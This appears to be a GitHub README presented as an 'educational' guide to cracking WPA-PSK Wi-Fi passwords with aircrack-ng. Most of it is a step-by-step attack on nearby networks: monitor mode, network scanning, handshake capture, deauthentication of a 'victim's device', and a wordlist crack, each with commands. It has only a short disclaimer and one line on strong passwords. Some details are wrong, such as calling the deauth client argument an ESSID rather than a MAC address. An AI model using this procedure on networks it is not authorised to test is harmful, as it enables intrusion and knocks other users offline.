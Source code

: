 # Wi-Fi Network Hacking Guide (Educational)

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize WPA-PSK encryption. Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is strictly for educational purposes. Engaging in these activities on networks without proper authorization is illegal. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

## Introduction

When you connect to a network from a wireless device, a `handshake` is sent from the device to the router. This handshake contains the encrypted password.

While it's not possible to reverse the encrypted password, you can use a technique called a word list attack. A word list is a huge text file containing thousands of passwords. By comparing the encrypted handshake password with the passwords in the word list, you can determine the real password.

## Requirements
For this guide, to perform Wi-Fi network hacking, you'll need:
- Computer running `Linux` distribution;
- Computer with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## Procedure
### 1 - Determine the Network Interface
Identify the wireless network interfaces, which usually start with w (e.g., wlp3s0).
<br>This information will be needed later.
<br>Open a terminal and type:

```
ip a
```

### 2 - Enable Monitor Mode
Use the airmon-ng tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
<br>Enter the command:

```
airmon-ng start <wireless interface>
```

Example: `airmon-ng start wlp3s0`

### 3 - Verify Monitor Mode
The wireless interface should be displayed as `<interface>mon` (e.g., wlp3s0mon).
<br>If not, it means your network card doesn't support monitor mode, and you'll need the external network card mentioned earlier.
<br>Run the command in a terminal to check if the network card's mode has changed to monitor.

```
iwconfig
```

### 4 - Scan for Networks
Use airodump-ng to view the networks around you.
<br>This command will display a list of nearby networks along with their BSSIDs (network MAC addresses) and channels.
<br>Enter the command:

```
airodump-ng <wireless interface>mon
```

Example: `airodump-ng wlp3s0mon`


### 5 - Target Network
Identify the BSSID and channel of the network you wish to attack.

### 6 - Capture the Handshake
This command will start capturing the handshake from devices connected to the target network.
<br>In a new terminal window, enter the command:

```
airodump-ng --bssid <BSSID> --channel <channel> --write <filename> <wireless interface>mon
```
- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - desired name for the captured handshake file;
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 7 - Deauthentication Attack
Now we need to to send deauthentication packets to the victim's device, forcing it to disconnect and reconnect to the network.
<br>Use the command:

```
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<client ESSID>` - ESSID (name) of the device you want to deauthenticate (e.g., the victim's device);
- `<wireless interface>mon` - name of your wireless interface in monitor mode;

### 8 - Capture the Handshake
Observe the terminal running airodump-ng and wait for a device to reconnect.
Once the handshake is captured, you can stop airodump-ng by pressing Ctrl+C.
The captured handshake will be saved in the specified filename.

### 9 - Word List Attack
Kali Linux comes with pre-installed word lists located in the directory mentioned below.
Use the aircrack-ng command to crack the password.
Enter aircrack-ng -w <wordlist> <filename> to start the cracking process.
<wordlist> with the path to the desired word list file (e.g., /usr/share/wordlists/rockyou.txt)
<filename> with the name of the captured handshake file.

This command will attempt to match the captured handshake with passwords from the word list.

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list.

---
  
Note: After performing these steps, your internet connection may still be interrupted. To fix this, you can either restart your computer or execute the command airmon-ng stop <monitor interface> followed by systemctl restart network* to restart the network services.
Conclusion

In this guide, we explored the process of Wi-Fi network hacking for educational purposes only. It is essential to respect privacy and legality when using these techniques. We discussed capturing handshakes, performing deauthentication attacks, and cracking passwords using word lists. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful, feel free to leave a like and thank you for reading!
    
    

# GLOSSARY
# DISCLAIMER
